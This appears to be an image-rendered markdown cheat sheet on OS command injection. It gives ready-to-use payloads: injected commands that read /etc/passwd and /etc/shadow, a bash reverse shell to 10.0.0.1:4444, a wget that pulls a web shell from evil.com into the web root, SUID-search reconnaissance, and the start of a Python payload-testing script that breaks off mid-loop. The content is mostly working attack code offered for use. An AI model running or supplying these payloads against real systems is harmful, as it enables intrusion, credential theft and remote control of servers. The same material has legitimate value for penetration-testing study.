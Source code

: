 
## **COMMAND INJECTION - OS-LEVEL PWNAGE** 🖥️🔥

### **Finding Command Injection Points:**
- Forms that take IP addresses, hostnames, filenames
- System administration interfaces
- File upload functionalities
- Network testing tools (ping, traceroute)

### **Exploitation Techniques:**

#### **Basic Command Injection:**
```http
POST /ping.php HTTP/1.1
ip=8.8.8.8; whoami

# Response might show command output
PING 8.8.8.8...
www-data
```

#### **Chaining Commands:**
```bash
# Multiple commands
; ls -la /etc/passwd
| cat /etc/shadow
&& whoami
`id`

# Command substitution
$(cat /etc/passwd)
`cat /etc/passwd`
```

#### **Advanced OS Pivoting:**
```bash
# Reverse shell
; bash -i >& /dev/tcp/10.0.0.1/4444 0>&1

# File download
; wget http://evil.com/shell.php -O /var/www/html/shell.php

# Privilege escalation reconnaissance
; find / -perm -4000 2>/dev/null
; cat /etc/passwd | grep -v nologin
```

### **Automated Command Injection Testing:**
```python
import requests
import subprocess

def command_injection_test(url, param):
    payloads = [
        "; whoami",
        "| id",
        "&& cat /etc/passwd",
        "`hostname`",
        "$(uname -a)",
        "'; echo 'test",
        '"; echo "test'
    ]
    
    for payload in payloads:
```